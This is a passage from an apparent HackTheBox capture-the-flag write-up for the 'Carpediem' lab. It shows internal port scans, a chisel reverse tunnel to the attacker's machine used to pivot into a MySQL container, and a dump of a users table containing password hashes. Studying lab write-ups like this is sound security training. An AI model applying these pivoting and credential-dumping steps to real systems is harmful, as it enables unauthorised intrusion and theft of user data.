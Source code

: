 ```
Host is up (0.00026s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap scan report for 172.17.0.5
Host is up (0.00029s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
8118/tcp open  unknown

Nmap scan report for 3c371615b7aa (172.17.0.6)
Host is up (0.000055s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
```

It appears that 172.17.0.3 has the MySQL instance, and 0.4 has the MongoDB instance. We can first pivot to the .0.3 instance using `chisel`.

```bash
# on kali
chisel server -p 5555 --reverse
# on host
./chisel client 10.10.14.13:5555 R:3306:172.17.0.3:3306
```

Afterwards, we can access the database:

```
$ mysql -h 127.0.0.1 -u portaldb -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 188
Server version: 8.0.27 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

We can find the `users` table to see that Jeremy Hammond is the user with a hash:

```
MySQL [portal]> select * from users\g
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
| id | firstname | lastname | gender | contact                | username | password                         | address | avatar                            | last_login | login_type | date_added          | date_updated        |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
|  1 | Jeremy    | Hammond  | Male   | jhammond@carpediem.htb | admin    | b723e511b084ab84b44235d82da572f3 |         | uploads/1635793020_HONDA_XADV.png | NULL       |          1 | 2021-01-20 14:02:37 | 2022-04-01 23:34:50 |
| 25 | test      | test     | Male   | test                   | test123  | cc03e747a6afbbcbf8be7668acfebee5 | test123 | NULL                              | NULL       |          1 | 2023-05-11 09:50:33 | 2023-05-11 09:51:37 |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
```